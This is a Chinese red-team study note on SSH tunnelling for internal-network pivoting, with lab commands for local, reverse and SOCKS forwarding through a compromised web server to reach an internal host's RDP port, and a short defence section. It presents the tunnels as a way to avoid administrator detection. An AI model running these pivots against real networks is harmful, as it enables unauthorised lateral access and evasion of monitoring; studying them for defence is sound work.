 ```yaml
---
title: 【内网学习笔记】SSH 隧道使用学习
date: 2021-06-04 15:40:36
id: 210604-154036
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh4.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


# 0x00 前言

SSH 全称 `Secure Shell`，从它的名字来看这个协议就比较安全。SSH 协议是一种应用层协议，支持几乎所有 UNIX、Linux 平台。

得益于 SSH 协议在传输过程中都是加密，所以在流量层面也较难区分合法的 SSH 流量和攻击者产生的 SSH 流量。

因此在内网渗透过程中，使用 SSH 协议进行建立隧道的方法，一方面不用自己再上传同类工具，另一方面降低了因上传使用了同类工具被管理员发现的风险。

# 0x01 SSH 常用命令介绍

相信各位平时最常使用的 SSH 命令就是拿来连接 Linux 系统了，命令一般是这样：

```
ssh root@192.168.1.1
```

或者 -p 指定自己自定义的 SSH 端口、-i 指定自己的私钥文件等等。

如果拿 SSH 来创建隧道则需要用到下面的命令：

```
 -C 压缩传输，提高传输速度。
 -f 将 SSH 传输转入后台执行，不占用当前 shell
 -N 建立静默连接（建立了连接但看不到具体会话）
 -g 允许远程主机连接本地用于转发的端口。
 -L 本地端口转发
 -R 远程端口转发
 -D 动态转发（ SOCKS 代理）
 -p 指定 SSH 端口
```

# 0x02 本地转发

目前有这样的一个环境，外网有一台攻击主机 ，可访问处于内网环境的 Web 服务器（双网卡），但无法访问 Web 服务器所在内网的办公主机，接下来就用 SSH 进行流量转发，使外网的攻击主机通过 Web 服务器访问到位于内网的办公主机。

环境拓扑如下：

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh1.jpg)

在攻击主机上执行以下命令，将内网办公主机的 3389 端口映射到自己的 3388 端口上

```
ssh -CfNg -L 攻击主机端口:内网办公主机IP:内网办公主机端口 Web服务器ssh用户名@Web服务器IP
```

```# ssh -CfNg -L 3388:192.168.7.110:3389 root@172.16.214.5
> ssh -CfNg -L 3388:192.168.7.110:3389 root@172.16.214.5
root@172.16.214.5's password:
```

这条命令的意思就是将 Web 服务器 172.16.214.5 作为跳板，将内网办公主机的 3389 端口转发到攻击主机的 3388 端口，这样只要访问攻击主机的 3388 端口就会访问到内网办公主机的 3389 端口了。

为了判断代理转发是否建立成功，可以通过 `netstat` 进行判断

```
netstat -pantu | grep "3388"
```

```netstat -pantu | grep "3388"
> netstat -pantu | grep "3388"
tcp        0      0 0.0.0.0:3388            0.0.0.0:*               LISTEN      14086/ssh
tcp6       0      0 :::3388                 :::*                    LISTEN      14086/ssh
```

可以看到 ssh 程序已经监听 3388 端口了，接下来连接本地的 3388 端口就可以连接到内网办公主机的 3389 端口了

```
rdesktop 127.0.0.1:3388
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh2.png)

# 0x03 远程转发

远程转发在这里其实也可以说是反向代理，目前有这样的一个环境：内网中不存在边界设备，但是内网的 Web 服务器能访问到攻击主机，而内网的办公主机则不行。

因此可以在拿到 Web 服务器的 Shell 后，采用远程转发的方式，即利用 Web 服务器 SSH 连接到攻击主机上进行代理转发，然后访问攻击主机的端口即可，拓扑图如下：

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh3.jpg)

将 Web 服务器作为跳板，进行远程转发

```
ssh -CfNg -R 攻击主机端口:内网办公主机IP:内网办公主机端口 攻击主机ssh用户名@攻击主机IP
```

```
> ssh -CfNg -R 3388:192.168.7.110:3389 root@172.16.214.48
root@172.16.214.48's password:
```

同样的，为了判断代理转发是否建立成功，也可以通过 `netstat` 进行判断，和之前一样都是在攻击主机下执行下面的命令

```
netstat -pantu | grep "3388"
```

```
> netstat -pantu | grep "3388"
tcp        0      0 127.0.0.1:3388          0.0.0.0:*               LISTEN      24728/sshd: root
tcp6       0      0 ::1:3388                :::*                    LISTEN      24728/sshd: root
```

可以看到，同样的，在攻击主机上 3388 端口的监听已经被开启了，此时直接在攻击主机上访问 127.0.0.1:3388 就可以连接到 192.168.7.110:3389 了

```
rdesktop 127.0.0.1:3388
```

# 0x04 动态转发

动态转发需要攻击主机能够访问到目标主机，因此这里采用和本地转发一样的拓扑进行演示。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh1.jpg)

在攻击主机上执行下面的命令

```
ssh -CfNg -D 攻击主机端口 Web服务器ssh用户名@Web服务器IP
```

```
> ssh -CfNg -D 4444 root@172.16.214.5
root@172.16.214.5's password:
```

使用 `netstat` 可以看到现在 4444 端口已经被监听了

```
netstat -pantu | grep "4444"
```

```
> netstat -pantu | grep "4444"
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      3979/ssh
tcp6       0      0 :::4444                 :::*                    LISTEN      3979/ssh
```

动态转发其实就是建立一个 socks 连接，任何支持 socks 4/5 协议的程序都可以使用这个加密通道进行访问，例如这里以 proxychains 为例，借助 proxychains 从攻击主机访问到内网的办公主机的 3389 端口。

在 kali 上如果没有自带 proxychains，可以直接使用 `sudo apt install proxychains` 进行安装，安装完成后，需要修改 proxychains 的配置文件

```
vim /etc/proxychains4.conf
```

来到配置文件最后一行，如果有之前配置好的代理，可以用 # 号注释掉，然后另起一行添加上我们的代理，添加内容为：

```
socks5 127.0.0.1 4444
```

修改后之后，按下`esc`，然后按下`:wq` 保存退出

之后使用下面的命令连接内网办公主机 192.168.7.110 的 3389 端口。

```
proxychains4 rdesktop 192.168.7.110:3389 
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/ssh4.png)

可以看到动态转发要比本地转发自由度高出不少，借助动态转发可以访问到内网 Web 服务器能访问的所有地址、端口，没有了本地转发只能访问单个IP、端口的限制。

# 0x05 SSH 隧道攻击的防御

对 SSH 进行双向访问控制策略可以避免这些问题，一方面只允许可信 IP 才能连接，一方面只允许连接到可信 IP。

> 参考文章：
>
> [https://baike.baidu.com/item/SSH/10407](https://baike.baidu.com/item/SSH/10407)
>
> [https://zhuanlan.zhihu.com/p/174782978](https://zhuanlan.zhihu.com/p/174782978)
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)